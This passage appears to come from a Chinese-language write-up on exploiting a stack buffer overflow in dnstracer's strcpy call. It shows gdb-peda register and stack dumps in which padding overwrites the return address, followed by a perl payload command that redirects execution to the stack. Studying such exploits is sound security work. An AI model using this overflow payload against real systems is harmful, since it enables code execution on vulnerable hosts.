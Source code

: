 ```
[----------------------------------registers-----------------------------------]
EAX: 0xbfffe6bf ('A' <repeats 200 times>...)
EBX: 0xbfffe6bf ('A' <repeats 200 times>...)
ECX: 0xbffff1d0 ("BBBB")
EDX: 0xbfffeadc ("BBBB")
ESI: 0x0 
EDI: 0xbfffedb3 ('A' <repeats 200 times>...)
EBP: 0xbfffead8 ("AAAABBBB")
ESP: 0xbfffe290 --> 0xbfffe6bf ('A' <repeats 200 times>...)
EIP: 0x8048dba (<main+794>:	mov    ecx,DWORD PTR [ebp-0x82c])
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048db3 <main+787>:	push   edi
   0x8048db4 <main+788>:	push   ebx
   0x8048db5 <main+789>:	call   0x8048920 <strcpy@plt>
=> 0x8048dba <main+794>:	mov    ecx,DWORD PTR [ebp-0x82c]
   0x8048dc0 <main+800>:	xor    eax,eax
   0x8048dc2 <main+802>:	add    esp,0x10
   0x8048dc5 <main+805>:	repnz scas al,BYTE PTR es:[edi]
   0x8048dc7 <main+807>:	not    ecx
[------------------------------------stack-------------------------------------]
0000| 0xbfffe290 --> 0xbfffe6bf ('A' <repeats 200 times>...)
0004| 0xbfffe294 --> 0xbfffedb3 ('A' <repeats 200 times>...)
0008| 0xbfffe298 --> 0xffffffff 
0012| 0xbfffe29c --> 0xffffffff 
0016| 0xbfffe2a0 --> 0x0 
0020| 0xbfffe2a4 --> 0x0 
0024| 0xbfffe2a8 --> 0x8051018 ("127.0.1.1")
0028| 0xbfffe2ac --> 0xffffffff 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 2, main (argc=<optimized out>, argv=<optimized out>) at dnstracer.c:1623
1623	    if (argv0[strlen(argv[0]) - 1] == '.') argv0[strlen(argv[0]) - 1] = 0;
gdb-peda$ x/10wx argv0
0xbfffe6bf:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe6cf:	0x41414141	0x41414141	0x41414141	0x41414141
0xbfffe6df:	0x41414141	0x41414141
gdb-peda$ x/5wx 0xbfffeadc-0x10
0xbfffeacc:	0x41414141	0x41414141	0x41414141	0x41414141  <-- ebp
0xbfffeadc:	0x42424242                                      <-- return addr
```
同时字符串 "BBBB" 覆盖了返回地址。继续修改 "BBBB" 为栈地址：
```
gdb-peda$ r `perl -e 'print "A"x1053 . "\xbf\xe6\xff\xbf"'`
```
即可跳转到栈开头的位置：
```
gdb-peda$ x/5wx 0xbfffeadc-0x10
0xbfffeacc:	0x41414141	0x41414141	0x41414141	0x41414141  <-- ebp
0xbfffeadc:	0xbfffe6bf                                      <-- stack
```
0xbfffeacc
